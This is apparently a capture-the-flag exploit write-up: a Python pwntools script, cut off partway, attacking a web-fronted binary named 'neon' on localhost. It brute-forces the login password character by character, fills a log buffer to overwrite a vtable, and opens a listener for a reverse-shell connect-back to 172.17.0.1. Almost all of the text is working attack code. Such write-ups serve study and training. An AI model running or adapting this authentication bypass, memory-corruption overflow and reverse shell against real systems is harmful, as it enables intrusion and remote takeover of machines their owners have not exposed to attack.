 
## Exploit 
```py
import requests
from pwn import *
from urllib.parse import quote 

context.log_level = 'CRITICAL'

LOGS_MAX    = 0x8000 - 2
CRLF        = b'\r\n'

e,libc      = ELF('neon',checksec=False) , ELF('libc/libc.so.6',checksec=False)
session_id  = None

# starting a socket for a connect back
sock        = listen()

# parameters that needs to be set
URL             = 'http://localhost:1234'
CONNECT_BACK    = f'172.17.0.1:{sock.lport}'

RHOST,RPORT     = URL.split('//')[1].split(':')
LHOST,LPORT     = CONNECT_BACK.split(':')

def login(p:str):
    r = requests.post(
        f'{URL}/login', 
        data={'password': p}
    )
    if r.cookies.get('session_id',None):
        return r.cookies['session_id']
    else:
        return None

def submit(message:bytes):
    requests.post(
        url     = f'{URL}/submit',
        cookies = {'session_id' : session_id},
        data    = {'message'    : message}
    )
    return

def overflow(vtable_overwrite:bytes , l:pwnlib.log.Progress = None):
    logs_offset = 0
    while logs_offset <= (LOGS_MAX-23):
        len = 1023 % (LOGS_MAX-logs_offset)
        if len - 23 < 0:
            break
        if l: l.status('Filling the logs...'+'.'*(logs_offset//950))
        submit(b'A'*(len-23))
        logs_offset += len
    submit(b'B'*10 +vtable_overwrite)

def url_encode(data : bytes) -> bytes:
    return b''.join([b'%' + hex(i)[2:].zfill(2).encode() for i in data])


# bypass auth - password doesn't change between failed attempts . only binary restarts
if not session_id: 
    with log.progress('Bypassing Auth....\t\t',level=logging.CRITICAL) as l:
        for i in string.printable:
            l.status(i)
```